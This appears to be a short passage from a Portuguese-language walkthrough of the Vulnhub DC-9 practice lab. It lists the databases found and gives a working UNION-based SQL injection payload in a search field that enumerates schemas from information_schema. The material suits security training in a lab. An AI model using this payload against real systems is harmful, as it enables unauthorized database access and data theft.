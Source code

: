 ![](/assets/img/Vulnhub/DC-9/dados-db.png)


\newpage

* Listando os banco de dados existentes: **information_schema**, **Staff** e **users**

```bash
search=Fred' union select 1,2,3,4,5,table_schema from information_schema.columns #
```

![](/assets/img/Vulnhub/DC-9/listagem-dbs.png)
